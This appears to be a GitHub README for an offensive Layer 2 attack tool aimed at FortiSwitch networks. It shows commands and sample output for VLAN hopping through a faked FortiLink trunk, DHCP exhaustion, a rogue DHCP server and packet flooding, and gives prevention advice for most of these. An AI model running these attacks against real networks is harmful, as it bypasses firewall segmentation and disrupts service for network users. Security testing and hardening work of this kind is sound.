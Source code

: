 # FortiSwitch Layer 2 Attacks

[![License](https://img.shields.io/badge/license-GPLv2-blue.svg)](LICENSE)

## Disclaimer 
This tool is for educational purposes and lawful use only. Always ensure you have the necessary permissions before using it. Unauthorized attacks can lead to criminal charges.

## Overview

This repository contains a tool designed to execute various Layer 2 attacks on a FortiSwitch. Currently only the VLAN Hopping attack is FortiSwitch specific, all other attacks will work in other setups as well.


## Prerequisites

- Python 3.x
- Scapy
- tcpreplay

## Installation

```bash
apt-get install scapy3
apt-get install tcpreplay
```

## Features



### VLAN Hopping

By default Fortiswitches establish ISL tunnels (VLAN Trunks) automatically to other FortiSwitches. This attack will simulate a FortiSwitch and establish a FortiLink ISL Tunnel to a FortiSwitch from your computer. This allows access all VLANs bypassing the Firewall.

#### Attack

```
sudo ./fsw_l2_attack.py vlanhop
Launching vlanhop attack
Listening for LLDP packets...received
System name: SW2-1
System description: FortiSwitch-448E-FPOE v7.2.5,build0453,230707 (GA)
Switchport interface: port1
Switch management address: 10.255.1.6
Listening for Fortigate LLDP TLVs...Found
Switch Serialnumber: S448EFTF23000000
Establishing FortiLink ISL...LACP Trunk established

To access the VLANs from your host run:  sudo ip link add link ens33 name ens33.<vlan-id> type vlan id <vlan-id>
Keep this program running in the background

Detected VLANs (passivly):
200
210
```

#### Prevent

Either disable LLDP completely on the switchports or change assigned LLDP Profile from 'default-auto-isl' to 'default'.



### DHCP Exhaustion

Request all available free IP addresses on the DHCP Server.

```
sudo ./fsw_l2_attack.py dhcpexhaustion
Launching DHCP Server exhaustion attack
Requesting 192.168.100.54 ...
Requesting 192.168.100.55 ...
Requesting 192.168.100.56 ...
Requesting 192.168.100.57 ...
```


### DHCP Server

#### Attack

A very simplistics DHCP Server able to server IPs to clients according to the application arguments.

```
sudo ./fsw_l2_attack.py dhcpserver --scope 192.168.1.30-192.168.1.40 --subnetmask 255.255.255.0 --gateway 192.168.1.1 --dns 8.8.8.8
Launching DHCP Server
192.168.1.30-192.168.1.40
Start IP: 192.168.1.30
End IP: 192.168.1.40
Listening for Discover packages
192.168.1.30 is free
Answering DHCP Request
192.168.1.30 is free
Answering DHCP Request
```

#### Prevention

Enable DHCP Snooping on the VLAN.



### Flood

Flood will prepare packets in memory, and send out all at maximum speed. Created to test storm control.

#### Attack

```
sudo ./fsw_l2_attack.py flood -t unknown_multicast -c 1000
Launching flood attack: unknown_multicast
Generating 1000 multicast flood packets
Sending packets...Done
```
#### Prevent

Set MAC address learning limit per port to prevent CAM table overflow. Enable storm control to limit impact on network and switch/firewall processes.

## Disclaimer

This tool is provided "as is" without any guarantees or warranty. Use at your own risk. Always ensure you are authorized to perform any tests.
License

## License

This project is licensed under the [GNU General Public License v2.0](LICENSE).
